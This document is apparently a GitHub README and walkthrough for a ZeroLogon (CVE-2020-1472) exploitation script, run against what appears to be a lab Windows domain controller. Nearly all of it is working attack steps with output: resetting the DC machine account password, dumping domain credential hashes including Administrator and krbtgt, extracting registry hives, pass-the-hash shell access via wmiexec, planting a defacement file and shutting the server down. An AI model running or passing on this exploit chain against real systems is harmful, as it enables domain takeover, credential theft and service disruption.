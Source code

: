 # ZeroLogon exploitation script

Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc.

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/b867b21 or newer. Then, do:

```
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

If that's successful you will then be able to:
```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```
which should get you Domain Admin. After you have that, wmiexec.py to the target DC with a credential from the secretsdump and do
```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

Then you can
```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by
```
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```

Reinstalling the original hash is necessary for the DC to continue to operate normally.

# HOW TO
#### install dependencies
```bash
sudo apt-get update
sudo apt-get install python3-venv -y
```

#### Scan for server info
- Server IP: (192.168.1.153)
```bash
sudo nmap -Pn -sU --script nbstat.nse -p137 192.168.1.153
```
##### Output:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 22:29 UTC
Nmap scan report for 192.168.1.153
Host is up (0.00042s latency).

PORT    STATE SERVICE
137/udp open  netbios-ns
MAC Address: 08:00:27:5E:66:0B (Oracle VirtualBox virtual NIC)

Host script results:
| nbstat: NetBIOS name: WIN-3AMIT8RJ9OB, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:5e:66:0b (Oracle VirtualBox virtual NIC)
| Names:
|   WIN-3AMIT8RJ9OB<00>  Flags: <unique><active>
|   DOMINIOSERVER<00>    Flags: <group><active>
|   DOMINIOSERVER<1c>    Flags: <group><active>
|   WIN-3AMIT8RJ9OB<20>  Flags: <unique><active>
|_  DOMINIOSERVER<1b>    Flags: <unique><active>

Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds
```
- Server IP: (192.168.1.153)
- netbios name: (WIN-3AMIT8RJ9OB)
- domain name: (DOMINIOSERVER)


#### Create virtual environment
```bash
python3 -m venv zero
cd zero
source bin/activate
```

#### Clone git repo
```bash
git clone https://github.com/risksense/zerologon.git
cd zerologon
pip install -r requirements.txt
pip install impacket
```

- Server IP: (192.168.1.153)
```bash
python3 set_empty_pw.py WIN-3AMIT8RJ9OB 192.168.1.153 
```
- The format ```python3 set_empty_pw.py NETBIOS_NAME SERVER_IP```

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMINIOSERVER/WIN-3AMIT8RJ9OB$@192.168.1.153'
```
- The ```-hashes :31d6cfe0d16ae931b73c59d7e0c089c0``` value is not important
- The format ```secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'SERVER_DOMAIN/NETBIOS_NAME$@SERVER_IP'```
- domain name: (DOMINIOSERVER)
- netbios name: (WIN-3AMIT8RJ9OB)
- Server IP: (192.168.1.153)

##### Output:
```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf404c607f29d847da44a3ee1479398c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c0df59848e7ea6b584b2d9e03cb0b8d7:::
WIN-3AMIT8RJ9OB$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:e271a736d7cb730c1a9c5a51a34f318914da65773e3b04217bc0d5f49d0ab778
krbtgt:aes128-cts-hmac-sha1-96:211796a84ea5ef9a157cf214f221465a
krbtgt:des-cbc-md5:d3ecf28f40f1685e
WIN-3AMIT8RJ9OB$:aes256-cts-hmac-sha1-96:20f0ee0401afa50eeaa73f15f25e625a955b7bd05b11a8880cbbd12e6f3116e9
WIN-3AMIT8RJ9OB$:aes128-cts-hmac-sha1-96:29f9aede70c5c3a62035eef7fe617a87
WIN-3AMIT8RJ9OB$:des-cbc-md5:16b9c20e2c230e3e
[*] Cleaning up...
```
- The format is ```<username>:<UserID>:<LMHash>:<NTHash>:::```

#### Create Text file to send
```bash
echo "HACKEADO :3" > newFile.txt
```

#### Get wmiexec.py
```bash
wget https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/wmiexec.py
```

#### Use wmiexec.py
```bash
python3 wmiexec.py DOMINIOSERVER/Administrator@192.168.1.153 -hashes aad3b435b51404eeaad3b435b51404ee:cf404c607f29d847da44a3ee1479398c
```
- The format ```python3 wmiexec.py DOMAIN/USER@SERVER_IP -hashes LMHASH:NTHASH```
##### Output
```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

#### Send file from linux to windows (inside wmiexec.py) and then shutdown windows Server
```
lput newFile.txt C:\Users\Administrator\Desktop\
shutdown /s /t 0
```
- The format ```lput SOURCE_PATH(Linux) TARGET_PATH(Windows)```

#### To restore original password:
```bash
python3 reinstall_original_pw.py WIN-3AMIT8RJ9OB 192.168.1.153 cf404c607f29d847da44a3ee1479398c
```
- The format ```python3 reinstall_original_pw.py NETBIOS_NAME SERVER_IP NTHASH```